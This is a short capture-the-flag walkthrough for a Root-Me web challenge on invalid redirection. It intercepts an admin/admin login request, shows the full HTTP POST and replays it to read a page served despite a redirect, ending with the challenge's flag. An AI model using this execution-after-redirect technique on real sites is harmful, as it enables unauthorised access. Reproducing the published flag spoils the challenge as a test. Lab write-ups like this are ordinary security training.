 # HTTP - Invalid redirection

> Get access to index.

<figure><img src="../../.gitbook/assets/1 (97).png" alt=""><figcaption></figcaption></figure>

* Let's enter `admin` in both the fields and intercept the request.

<figure><img src="../../.gitbook/assets/2 (92).png" alt=""><figcaption></figcaption></figure>

* We can now forward the request to the `Repeater` and modify it.

### HTTP Request

```
POST /web-serveur/ch32/index.php HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch32/login.php?redirect
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697428943.14.1.1697430697.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

login=admin&password=admin
```

* Finally we have to send it to the server.&#x20;

<figure><img src="../../.gitbook/assets/3 (80).png" alt=""><figcaption></figcaption></figure>

### Flag

```
ExecutionAfterRedirectIsBad
```

